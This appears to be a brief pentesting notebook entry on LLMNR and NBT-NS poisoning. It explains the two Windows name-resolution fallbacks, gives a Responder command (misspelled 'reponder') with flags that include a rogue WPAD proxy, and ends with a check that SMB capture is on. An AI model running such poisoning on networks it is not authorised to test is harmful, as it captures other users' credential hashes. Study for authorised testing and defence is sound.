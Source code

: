 # LLMNR Poisoning 

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Windows domain services
Alternatives for host identification
LLMNR allow same network hosts to use name resolution for other hosts.
NBT-NS utilised to identify systems on a network by NetBIOS name.


## Responder
For more: [[Responder-Cheatsheet]]

```bash
sudo reponder -I $IP -rdw -v 

-r	# r enables netbios wredir suffix queries
-d	# d enables netbios domain suffix queries
-w	# w starts the wpad rogue proxy server
```

## Troubleshooting
cat /etc/responder/Responder.conf | grep SMB
SMB = On
